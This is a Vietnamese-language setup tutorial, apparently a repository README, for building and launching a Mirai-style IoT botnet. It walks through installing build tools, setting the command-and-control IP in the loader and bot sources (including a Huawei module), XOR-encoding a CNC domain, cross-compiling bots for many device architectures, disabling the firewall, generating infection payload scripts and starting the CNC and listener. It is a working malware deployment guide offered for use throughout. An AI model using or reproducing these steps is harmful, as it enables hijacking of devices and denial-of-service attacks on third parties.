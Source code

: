 TUT của zxcr9999

### Sao chép và dán tất cả vào shit vps của bạn
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### cài đặt golang
```
cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
```
```
sha256sum go1.13.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
```
```
go version
go env
cd ~/
```

### thay đổi ip

`loader/src/main.c`

`loader/src/headers/config.h`

`dlr/main.c`

`bot/huawei.c`

`bot/util.c`


### thêm tên miền

kéo tệp `enc.c` vào vps của bạn và gõ lệnh
```
gcc enc.c -o enc -std=c99
```
```
./enc string botnet.yourdomain.com
```
và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`

`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet

`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`

số 17 sẽ tương ứng với byte xor
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-i586.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-m68k.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mips.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mipsel.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-powerpc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sh4.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv4l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-x86_64.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
```
```
rm -rf *.tar.*
```
```
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-x86_64 x86_64
```

### Bắt đầu xây dựng
```
service firewalld stop
service iptables stop 
service httpd restart  
service mariadb stop
```
```
cd cnc/
sh build.sh
```
```
cd ~/
chmod 777 *
sh build.sh
```
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
### Xây dựng file `.sh`
```
python payload.py
```
### Cách khởi động cnc và listen
```
cd cnc/
screen ./cnc 56999 1337 10
screen ./listen
```
----------------------------------------------------------
Help: 56999 là cổng bot (nếu muốn thay thì vào file `bot/main.c` dòng 429), 1337 là cổng cnc, 10 là luồng (tối đa luồng là 750)
